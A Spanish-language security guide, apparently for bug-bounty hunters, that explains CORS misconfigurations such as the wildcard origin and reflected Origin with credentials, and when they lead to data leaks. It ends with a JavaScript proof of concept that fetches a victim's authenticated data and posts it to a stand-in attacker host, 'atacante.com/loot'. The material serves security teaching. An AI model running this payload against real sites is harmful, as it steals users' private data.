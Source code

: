 - **Percepción superficial:** muchos ven `Access-Control-Allow-Origin: *` y lo reportan como “informativo” sin más.
- **Mentalidad correcta:**
  - Si todos lo omiten, ahí suele estar la oportunidad.
  - La clave está en buscar **qué datos devuelve** el endpoint CORS-enabled y **si requiere credenciales**.
  - El impacto surge al combinar CORS con:
    - Endpoints autenticados (`/me`, `/profile`, `/internal`).
    - Cookies de sesión + `Access-Control-Allow-Credentials: true`.
    - Errores que filtran más info de la prevista.
    - Cache poisoning.

---

## 3. El “Wildcard Disaster”

**Configuración típica:**

````
Access-Control-Allow-Origin: *
````

**Mito:** “Siempre es crítico.”**Realidad:** No necesariamente. Solo lo es si:

- Existen datos sensibles que pueden ser solicitados sin autenticación, o
- Se combina con `Access-Control-Allow-Credentials: true`.

**Problema añadido:**
Algunos clientes (no todos los navegadores) sí permiten credenciales con `*`. Esto abre la puerta a fugas en entornos híbridos (APIs, apps móviles, lenguajes menos estrictos).

**Ejemplo práctico:**
Un endpoint `/api/info` devuelve emails internos.
Tu HTML en `https://atacante.com` hace `fetch` sin bloqueos: los datos se exponen directamente.

---

## 4. Reflejo del Origin: “The Reflection Trap”

Muchos servidores hacen:

````
Access-Control-Allow-Origin: <valor del Origin recibido>
Access-Control-Allow-Credentials: true
````

Esto significa que cualquier dominio que llame con `Origin: https://atacante.com` puede recibir datos autenticados del usuario víctima.

**PoC típica:**

```
fetch("[https://victima.com/api/usuario](https://victima.com/api/usuario)", {
credentials: "include",
headers: { "Origin": "[https://atacante.com](https://atacante.com/)" }
})
.then(r => r.json())
.then(data => fetch("[https://atacante.com/loot](https://atacante.com/loot)", {
method: "POST",
body: JSON.stringify(data)
}));
```
